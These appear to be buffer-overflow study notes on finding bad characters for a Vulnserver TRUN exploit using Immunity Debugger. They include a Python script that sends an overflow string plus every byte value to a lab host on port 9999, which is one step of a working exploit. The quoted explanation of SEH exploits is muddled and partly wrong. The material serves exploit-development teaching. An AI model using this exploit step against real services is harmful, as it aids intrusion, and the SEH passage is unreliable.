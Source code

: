 # Finding Bad Characters

Google `badchars`
https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/

E.g. usually hex `x00` is a bad hexadecimal character that we can use in our exploits

A simple, if a bit tedious, way of checking which characters we can use in our exploit string, is to add an entire string (containing all possible hex characters) to our exploit after the saved return pointer and compare the results in memory

We want to put the bad characters after the saved return pointer overwrite to ensure that any corruption due to bad characters does not stop the saved return pointer from being overwritten

SEH - Structured Exception Handling
- an exception handling mechanism included in most programs to make them robust and reliable
- used to handle many types of errors and any exceptions that arise during the normal execution of an application 

> SEH exploits happen when the exception handler of an application is manipulated, causing it to force an application to close. Hackers normally attack the logic of the SEH, causing it to correct nonexistent errors and lead a system to a graceful shutdown. This technique is sometimes used with buffer overflows to ensure that a system brought down by overflows is closed to prevent unnecessary and excessive damage.

> Placement may be a factor when working with SEH overwrites. You need not put the bad characters after the SEH overwrite but you do need to take note of what is causing the exception and make sure your bad characters don’t stop it from occurring. For example if your vulnerable software is throwing an exception while reading 41414141 when you are sending a long string of A’s, you need to insure that you avoid putting your bad characters at the offset that is causing that read error or else you may end up reading from a spot in memory that is mapped and readable by the application, avoiding the exception altogether.

Add badchars to our script and delete the x00 char which is always a bad character:
```
#!/usr/bin/python
import sys, socket

badchars = ("\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 2003 + "B" * 4 + badchars

while True:
	try:
		s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
		s.connect(('10.0.2.15',9999))
		s.send(('TRUN /.:/' + shellcode ))
		s.close()
	except:
		print "Error connecting to server"
		sys.exit()
```

We run every badchar through our program 
Programs have particular characters and hex codes that might refer to particular commands. If that is the case, we want to make sure to remove these from our generated shell code, so it can be interpreted as we want it.

RUN PROGRAM WITHOUT THE x00 badchar cause we know it is bad in default

Hence, we parse all these through the program and check which ones.

After running the program again, need to check the hexdump

`ESP > Right Click > Follow in Dump`

Bottom left Hex dump: Text > Font > OEM (Biggest)

We go through the whole list and should have `01 02 03 ... FE FF` i.e. all the way. If something is looking funny, it is a bad char and needs to be removed 

Need to note down all hex characters that we cannot use when generating our shell code

